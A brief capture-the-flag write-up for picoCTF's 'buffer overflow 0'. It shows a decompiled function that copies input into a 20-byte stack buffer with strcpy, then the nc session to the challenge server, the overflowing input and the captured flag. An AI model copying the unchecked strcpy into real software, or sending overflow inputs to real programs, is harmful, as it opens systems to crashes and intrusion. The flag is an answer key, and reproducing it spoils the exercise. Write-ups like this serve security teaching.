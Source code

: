 # buffer overflow 0 Writeup

## Steps:
1. Open in ghidra and analyze
	- Notice function called `vuln`
 ```
void vuln(char *param_1)

{
  char local_1c [20];
  
  strcpy(local_1c,param_1);
  return;
}
```
2. local_1c has a size of 20, so if our input is longer it will overflow the buffer, triggering sigsegv_handler() and printing the flag

## Solution:
```
$ nc saturn.picoctf.net 52311
Input: aaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
